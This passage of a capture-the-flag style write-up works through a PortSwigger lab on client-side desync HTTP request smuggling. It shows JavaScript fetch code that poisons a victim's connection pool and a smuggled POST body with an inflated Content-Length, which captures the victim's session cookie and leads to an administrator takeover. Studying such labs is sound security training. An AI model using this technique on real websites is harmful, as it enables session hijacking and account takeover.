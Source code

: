 ```html
            credentials: 'include' // poisons the "with-cookies" connection pool
        }).catch(() => {
                fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net', {
                mode: 'no-cors',
                credentials: 'include'
            })
        })
        </script>
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226145147.png)

Then, refresh the blog post page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226145223.png)

Nice! However, we only captured some victim's request.

**To fix that, we can update the `Content-Length` header's value in the `body`, let say `1000`:**
```js
body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net\r\nCookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper\r\nContent-Length: 1000\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test@test.com&website=&comment=', // malicious prefix
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226145542.png)

**Yes! Now we can modify our session cookie to the victim ones:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226145625.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226145635.png)

I'm now user administrator!

# What we've learned:

1. Client-side desync